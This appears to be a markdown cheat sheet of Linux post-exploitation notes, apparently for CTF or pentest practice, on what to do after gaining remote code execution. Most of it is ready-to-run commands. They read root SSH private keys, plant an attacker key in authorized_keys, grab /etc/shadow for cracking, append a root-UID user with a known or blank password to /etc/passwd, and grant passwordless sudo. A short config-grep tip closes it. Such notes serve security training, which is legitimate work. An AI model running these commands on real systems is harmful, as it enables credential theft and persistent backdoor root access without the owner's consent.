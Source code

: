 
# Internal Enumeration
After you get a foothold....

## So you got RCE...
So you got RCE, either as a foothold, as a user, or found a way to read/write/run files as root. How can you use this? There's always a reverse shell, that's fine, but lets get a little more creative.

### Steal ssh keys
Can you use your RCE privs to read sensitive files? Try ```cat /root/.ssh/id_rsa``` or ```cat /root/.ssh/id_dsa```, or copy those files somewhere where you can read them (/tmp?). And that's not limited to root. You can try to steal regular users ssh keys. The nice thing about having a stolen SSH key (or password) is that its persistant access, like a save-point. You can walk away, reset the machine, whatever, come back a few days later, and just ssh back in to get to where you were.

If the user doesn't have ssh keys... but you can execute code in their context, no reason you can't ssh-keygen them yourself and put them there.

### Add your own ssh key
Take your own ssh public key (or generate one just for this), and use your access to ```echo 'FULL_CONTENTS_OF_YOUR_OWN_ID_RSA.PUB' >> /root/.ssh/authorized_keys```. For some reason, I just love this one.

### Steal /etc/shadow
If  all you can do is read, and there aren't keys you can steal, grab /etc/shadow and try to crack hashes in there. Problem is, it's bcrypt these days, and that's pretty slow cracking on GPUs.

### Modify /etc/passwd to add a new root user
Add a priveleged user with a known password
```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```
and then for your rce payload
``` echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> /etc/passwd```

and now you can do ```su hacker``` or ssh in as hacker with creds hacker:hacker.
If you're lazy, just use a blank password:
```echo 'instantroot::0:0::/root:/bin/bash' >>/etc/passwd```


### Give yourself (or anyone) sudo access
```echo "username ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers```



For more ideas, see https://book.hacktricks.xyz/linux-unix/privilege-escalation#interesting-files


## Finding "useful" lines in config files
Some config files have tons of comments, and its a pain to visually parse out what settings have been changed. Use inverse grep, and then grep for lines that only have characters. Here's sshd_config as an example
``` 
grep -v \# /etc/ssh/sshd_config | grep .
ChallengeResponseAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no
AcceptEnv LANG LC_*